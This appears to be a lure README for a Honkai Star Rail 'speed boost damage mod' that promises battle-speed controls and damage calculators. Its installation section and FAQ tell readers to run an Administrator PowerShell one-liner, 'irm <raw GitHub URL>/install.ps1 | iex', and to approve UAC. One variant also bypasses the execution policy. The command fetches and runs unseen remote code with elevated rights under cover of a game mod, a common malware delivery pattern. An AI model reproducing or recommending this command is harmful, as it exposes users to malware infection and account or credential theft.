

<div align="center">


<br>


# Honkai Star Rail Speed Boost Damage Mod Pro
**Battle speed · Progress tools · Turn-based RPG**
<br>
Premium · Full Edition · Windows



**Honkai Star Rail progress suite with battle speed controls, damage calculators, and trailblazer progression trackers for turn-based RPG gameplay on Windows.**

</div>

---

> Turn-based RPG companion for Honkai Star Rail — speed controls, relic optimizers, and simulated combat calculators.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- ⏩ **Battle speed** — Adjustable combat pacing for farming and story.
- 📊 **Damage calculator** — Simulated DPS for relic and light cone builds.
- 🌟 **Trailblazer tracker** — Progress through trails, simulators, and events.
- 📅 **Daily planner** — Stamina usage and event schedule optimizer.
- 🖥️ **Windows native** — Built for Windows 10 and 11 64-bit.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 15 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 15 GB free space.
</details>


TAGS
honkai-star-rail, turn-based, rpg, hoyoverse, anime, gacha, pc-gaming
